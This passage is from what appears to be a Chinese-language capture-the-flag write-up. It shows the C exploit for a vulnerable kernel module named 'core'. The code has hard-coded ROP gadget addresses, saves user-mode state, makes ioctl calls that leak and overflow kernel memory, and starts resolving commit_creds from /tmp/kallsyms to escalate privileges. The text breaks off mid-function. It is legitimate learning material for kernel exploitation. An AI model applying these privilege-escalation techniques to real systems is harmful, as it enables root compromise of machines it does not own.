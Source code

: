 ### 6. exp
本次exp如下,大伙看看
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <ctype.h>
#include <sys/types.h>
#include <sys/ioctl.h>

size_t commit_creds = NULL, prepare_kernel_cred = NULL;        // address of to key function
#define SWAPGS_POPFQ_RET 0xffffffff81a012da
#define MOV_RDI_RAX_CALL_RDX 0xffffffff8101aa6a
#define POP_RDX_RET 0xffffffff810a0f49
#define POP_RDI_RET 0xffffffff81000b2f  
#define POP_RCX_RET 0xffffffff81021e53
#define IRETQ 0xffffffff81050ac2 
size_t user_cs, user_ss,user_rflags,user_sp;

//int fd = 0;        // file pointer of process 'core'

/*void saveStatus();
void get_function_address();
#void core_read(int fd, char* buf);
void change_off(int fd, long long off);
void core_copy_func(int fd, long long nbytes);
void print_binary(char* buf, int length);
void shell();
*/
void saveStatus(){
  __asm__("mov user_cs, cs;"
          "mov user_ss, ss;"
          "mov user_sp, rsp;"
          "pushf;"
          "pop user_rflags;"
          );
  puts("\033[34m\033[1m Status has been saved . \033[0m");
}

void core_read(int fd, char *addr){
  printf("try read\n");
  ioctl(fd,0x6677889B,addr);
  printf("read done!");
}

void change_off(int fd, long long off){
  printf("try set off \n");
  ioctl(fd,0x6677889C,off);
}

void core_copy_func(int fd, long long nbytes){
  puts("try cp\n");
  ioctl(fd,0x6677889A,nbytes);
}

void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
```